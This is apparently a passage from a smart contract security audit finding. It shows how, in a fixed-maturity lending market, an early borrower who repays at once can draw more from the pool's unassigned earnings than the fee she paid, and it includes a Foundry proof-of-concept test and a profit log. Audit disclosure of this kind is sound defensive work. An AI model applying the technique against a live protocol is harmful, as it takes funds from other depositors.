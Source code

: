```solidity
    yield = pool.unassignedEarnings.mulDivDown(Math.min(amount, memBackupSupplied), memBackupSupplied);  // @audit, here
    backupFee = yield.mulWadDown(backupFeeRate);
    yield -= backupFee;
  }
}
```
The `interest rate` increases when new `borrows` occur, meaning that later `borrowers` pay more `fees` than earlier `borrowers`, consequently increasing the `unassignedEarnings` in proportion to that.
As a result, earlier `borrowers` can take more funds from `unassignedEarnings` than their original `fee`, potentially resulting in a net `profit` from these operations.

Let's consider an example.
`ALICE` `borrows` at a `maturity` of `12 weeks`, and `BOB` is also going to `borrow` at the same `maturity`.
At that time, the `interest rate` is larger than one for `ALICE`. (for testing purpose, set the `interest rate` manually in the test)
Consequently, the `fee` added to the `unassignedEarnings` of that `maturity pool` from `BOB` is larger than that of `ALICE` per unit of `borrowing funds`.
As a result, if `ALICE` repays the `debt` immediately, she can take `funds` from `unassignedEarnings` in proportion to her `borrowed amount`, obtaining more `funds` than her `fee`.
Consequently, she repays an amount less than the `principal`, and this difference represents a `net profit`.

Please check below log.
```solidity
borrowed amount       ==>   2000000000000000000
owed amount           ==>   2046027397260273972
actual repaid amount  ==>   1992653319283456270
net profit            ==>   7346680716543730
```

Please add below test to the `Market.t.sol`.
```solidity
function testRepayBeforeMaturity() external {
  market.deposit(1000 ether, address(this));
  market.deposit(100 ether, ALICE);
  market.deposit(100 ether, BOB);

  irm.setRate(0.1e18);
  uint256 borrowedAssets = 2 ether;
  vm.prank(ALICE);
  uint256 positionAssets = market.borrowAtMaturity(12 weeks, borrowedAssets, 2 * borrowedAssets, ALICE, ALICE);

  irm.setRate(0.13e18);
  vm.prank(BOB);
  market.borrowAtMaturity(12 weeks, 50 ether, 100 ether, BOB, BOB);

  vm.prank(ALICE);
  uint256 actualRepayAssets = market.repayAtMaturity(12 weeks, 100 ether, 100 ether, ALICE);

  console2.log("borrowed amount       ==>  ", borrowedAssets);
  console2.log("owed amount           ==>  ", positionAssets);
  console2.log("actual repaid amount  ==>  ", actualRepayAssets);
  console2.log("net profit            ==>  ", borrowedAssets - actualRepayAssets);
}
```
## Impact
